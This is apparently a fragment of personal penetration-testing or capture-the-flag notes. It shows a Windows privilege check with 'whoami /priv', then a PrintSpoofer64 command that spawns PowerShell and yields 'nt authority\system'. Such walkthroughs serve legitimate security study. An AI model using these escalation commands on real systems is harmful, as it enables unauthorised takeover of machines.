 ```
whoami /priv
```
![[Pasted image 20240817114543.png]]

Using `PrintSpoofer64.exe`
```
.\PrintSpoofer64.exe -i -c powershell.exe
```
Got system as `nt authority\system`